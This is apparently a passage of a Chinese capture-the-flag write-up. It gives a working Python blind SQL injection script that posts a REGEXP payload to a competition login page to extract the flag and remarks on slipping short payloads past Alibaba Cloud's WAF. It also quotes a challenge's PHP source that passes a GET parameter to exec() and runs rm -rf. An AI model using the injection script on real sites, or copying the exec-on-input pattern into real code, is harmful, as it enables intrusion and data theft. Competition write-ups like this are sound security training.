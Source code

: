 ```
            flag = flag + char
            print flag
```

### YUN\_WAF\_的突破_阿里

之前在渗透的时候遇到过阿里云，而且环境和这次比赛的有点像，阿里云对一些比较短且不是很敏感的payload过滤强度不大

脚本如下

```
#coding: utf-8

import requests

session = requests.Session()


flag = 'flag{'
while 1:
    for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-{}_':
        
        # aliyun 
        url='http://alicetc.xctf.org.cn/findpwd.php'
        data = {
            'username': "dubhe123' or password REGEXP BINARY '^" + flag + char + "'#"
        }

        http = session.post(url, data=data, headers=headers)

        if len(http.content) == 221:
            pass
        else:
            flag = flag + char
            print flag

```

### 工控云管理系统的警告记录

```php
<?php
    if(!isset($_GET['c']) && !isset($_GET['re'])) {
        show_source(__FILE__);
    }

    $selfdir = $_GET['dir'];
    if (!isset($selfdir)) {
      die();
    }
    $secret = '/var/www/html/hackme/' . md5("cetcrce" . $selfdir . $_SERVER['REMOTE_ADDR']);
    @chdir('hackme');
    @mkdir($secret);
    @chdir($secret);

    if (isset($_GET['c']) && strlen($_GET['c']) <= 5) {
        include('waf.php');
        @exec($_GET['c']);
    }elseif(isset($_GET['re'])) {
        @exec('/bin/rm -rf ' . $secret);
        @exec('touch /var/www/html/hackme/index.php');
    }
?>
```
